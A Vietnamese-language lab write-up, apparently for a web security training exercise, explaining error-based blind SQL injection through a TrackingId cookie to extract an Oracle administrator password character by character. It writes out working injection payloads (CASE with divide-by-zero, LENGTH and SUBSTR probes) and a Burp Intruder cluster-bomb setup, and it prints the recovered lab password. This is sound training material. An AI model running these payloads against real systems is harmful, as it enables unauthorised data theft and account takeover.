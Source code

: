 # Lab12: Blind SQL injection — conditional (error-based) responses

Mục tiêu: Khai thác lỗ hổng Blind SQL Injection dựa vào phản hồi lỗi (conditional/error-based) trên cookie TrackingId để rút trích mật khẩu của user administrator và đăng nhập.

Tóm tắt ngắn:

- Ứng dụng dùng cookie TrackingId trong truy vấn SQL. Kết quả truy vấn không được trả về trực tiếp.
- Ứng dụng không thay đổi hiển thị theo số hàng trả về, nhưng nếu truy vấn SQL gây lỗi thì nó trả về một thông báo lỗi tùy chỉnh (HTTP 500).
- Ta lợi dụng việc “xuất hiện lỗi” hay “không lỗi” để suy ra các điều kiện SQL (TRUE/FALSE) và rút trích dữ liệu từng ký tự.

Các bước giải:

-Bước 1 — Bắt request và ghi nhận cookie TrackingId

- Mở trang chính (front page) của ứng dụng trong trình duyệt đã cấu hình proxy Burp.
- Bật Intercept và tải lại trang để bắt request HTTP. Ghi lại giá trị cookie TrackingId (ví dụ: TrackingId=xyz).
- Ảnh minh họa: bắt request / giá trị cookie
- ![A screenshot of a computer](./image/Picture1.png)

-Bước 2 — Gây lỗi cú pháp nguyên thủy để xác nhận injection

- Thêm một dấu nháy đơn vào cuối giá trị cookie:
  - TrackingId=xyz'
- Gửi request và xác nhận rằng bạn nhận được thông báo lỗi (HTTP 500 / custom error). Điều này gợi ý lỗi cú pháp SQL.
- ![A screenshot of a computer](./image/Picture2.png)
- Tiếp theo thử hai dấu nháy đơn:
  - TrackingId=xyz''
- Nếu lỗi biến mất, điều này cho thấy sự khác biệt giữa một dấu nháy đơn unclosed và cặp dấu nháy hợp lệ — dấu hiệu ứng dụng chèn trực tiếp cookie vào chuỗi SQL.
- ![A screenshot of a computer](./image/Picture3.png)

-Bước 3 — Xác định kiểu DB (thử subquery)

- Thử chèn biểu thức con (subquery) hợp lệ về mặt SQL:
  - TrackingId=xyz'||(SELECT '')||'
- ![A screenshot of a computer](./image/Picture4.png)
- Nếu vẫn lỗi, thử khai báo bảng dự phòng:
  - TrackingId=xyz'||(SELECT '' FROM dual)||'
- Nếu lỗi biến mất với FROM dual thì khả năng backend là Oracle (Oracle yêu cầu SELECT phải chỉ rõ bảng, và dual là bảng đặc trưng).
- Ảnh minh họa: thử SELECT '' và SELECT '' FROM dual
- ![A screenshot of a computer](./image/Picture5.png)

-Bước 4 — Chứng minh injection được xử lý như truy vấn SQL (thử table không tồn tại)

- Thử truy vấn một bảng giả:
  - TrackingId=xyz'||(SELECT '' FROM not_a_real_table)||'
- Nếu nhận lỗi, đó là bằng chứng mạnh rằng payload được chạy như SQL ở DB.
- Ảnh minh họa: truy vấn bảng giả gây lỗi
- ![A screenshot of a computer](./image/Picture6.png)

-Bước 5 — Kiểm tra tồn tại bảng users

- Kiểm tra bảng users:
  - TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
- Nếu không có lỗi → bảng users tồn tại.
- Lưu ý: điều kiện WHERE ROWNUM = 1 tránh trả về nhiều hàng làm hỏng phép nối chuỗi.
- Ảnh minh họa: kiểm tra bảng users tồn tại
- ![A screenshot of a computer](./image/Picture7.png)

-Bước 6 — Tạo lỗi có điều kiện (use CASE + divide-by-zero)

- Bạn có thể gây lỗi có điều kiện bằng CASE kết hợp một phép chia cho 0 để ép lỗi:
  - TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
- Nếu nhận lỗi khi 1=1 và không lỗi khi 1=2, bạn đã có công cụ boolean-based dựa trên lỗi để suy luận TRUE/FALSE.
- Giải thích: khi điều kiện TRUE, CASE thực thi TO_CHAR(1/0) gây divide-by-zero → lỗi; khi FALSE thì trả rỗng → không lỗi.
- Ảnh minh họa: CASE gây lỗi khi TRUE
- ![A screenshot of a computer](./image/Picture8.png)
- Ảnh minh họa: CASE gây lỗi khi FALSE
- ![A screenshot of a computer](./image/Picture9.png)
  -Bước 7 — Xác nhận user administrator tồn tại
- Kiểm tra admin:
  - TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
- Nếu nhận lỗi → tồn tại hàng với username='administrator'.
- Ảnh minh họa: kiểm tra admin tồn tại
- ![A screenshot of a computer](./image/Picture10.png)

-Bước 8 — Xác định độ dài mật khẩu administrator

- Dùng CASE cùng LENGTH(password) để kiểm tra độ dài lớn hơn n:
  - TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
- Lặp tăng n: >1, >2, >3 ... cho đến khi điều kiện không còn gây lỗi nữa — khi đó bạn biết độ dài chính xác. (Trong lab này độ dài là 20 ký tự.)
- Thực hiện các requests này bằng Burp Repeater thuận tiện cho thử tay.
- Ảnh minh họa: kiểm tra độ dài mật khẩu với Repeater
- ![A screenshot of a computer](./image/Picture11.png)
- ![A screenshot of a computer](./image/Picture12.png)
- ![A screenshot of a computer](./image/Picture13.png)
- ![A screenshot of a computer](./image/Picture14.png)
  -Bước 9 — Rút trích từng ký tự với Burp Intruder (Cluster bomb, 2 payload positions)
- Vì cần nhiều request để thử từng ký tự ở mọi vị trí, dùng Burp Intruder với 2 payload positions (vị trí và ký tự) và chọn kiểu tấn công "Cluster bomb":
  1. Gửi request hiện tại sang Intruder.
  2. Thay cookie TrackingId thành payload kiểm tra ký tự với SUBSTR và CASE. Ví dụ kiểm tra ký tự vị trí 1:
     - TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
       (Oracle dùng SUBSTR; SUBSTR(password, pos, 1) lấy 1 ký tự)
  3. Đặt hai vị trí payload:
     - Bôi đen số vị trí (1) trong SUBSTR(password,1,1) → nhấn "Add §" ⇒ payload position #1 (vị trí).
     - Bôi đen ký tự so sánh ('a') → nhấn "Add §" ⇒ payload position #2 (ký tự).
     - Ví dụ cookie sau khi đặt marker sẽ trông như:
       - TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
  4. Chọn kiểu tấn công: Cluster bomb (kết hợp mọi giá trị payload1 × payload2).
  5. Cấu hình Payload 1 (vị trí):
     - Payload position = 1
     - Payload type = Numbers (Sequential)
     - From = 1, To = 20 (độ dài mật khẩu), Step = 1
     - (Số request = số vị trí × số ký tự)
- ![A screenshot of a computer](./image/Picture15.png) 6. Cấu hình Payload 2 (ký tự):
  - Payload position = 2
  - Payload type = Simple list
  - Thêm danh sách ký tự khả dĩ (ví dụ a → z, 0 → 9)
- ![A screenshot of a computer](./image/Picture16.png) 7. Tính toán request: ví dụ 20 vị trí × 36 ký tự = 720 requests (kiểm tra Request count ở panel). 8. Start attack. 9. Khi attack chạy xong (hoặc dần dần trong lúc chạy), chuyển sang tab Results.

- Phân tích kết quả:
  - Ở lab này, khi CASE thực thi TO_CHAR(1/0) server trả HTTP 500 (error). Khi không thực thi, server trả HTTP 200.
  - Trong bảng kết quả Intruder, xem cột "Status" — tìm các hàng có Status = 500. Mỗi hàng cho biết một pair (Payload1 = vị trí, Payload2 = ký tự) khiến lỗi xảy ra ⇒ ký tự đúng tại vị trí đó.
  - Ảnh minh họa: các dòng chứa Status 500 (Payload1 = vị trí, Payload2 = ký tự đúng)
- ![A screenshot of a computer](./image/Picture17.png)

- Mẹo khi dùng Cluster bomb:
  - Nếu target giới hạn tốc độ, giảm tốc độ (throttling) hoặc chia nhỏ range vị trí.
  - Nếu có nhiều dòng 500 cho cùng một vị trí (hiếm), kiểm tra Length/Response để phân biệt.
  - Lưu ý số lượng requests lớn — xác nhận bạn đang ở môi trường lab.

-Bước 10 — Lặp và hoàn thiện mật khẩu

- Khi đã xác định ký tự đúng cho từng vị trí i (từ 1 đến độ dài đã biết), ghép các ký tự theo thứ tự để tạo mật khẩu đầy đủ.
- Password khi sắp xếp lại là: cwdtn8woc70u9iz63r1i
  -Bước 11 — Đăng nhập bằng administrator
- Mở My account → Login.
- Username: administrator
- Password: (mật khẩu vừa rút trích)
- Nếu đăng nhập thành công → hoàn thành lab.
- ![A screenshot of a computer](./image/Picture18.png)
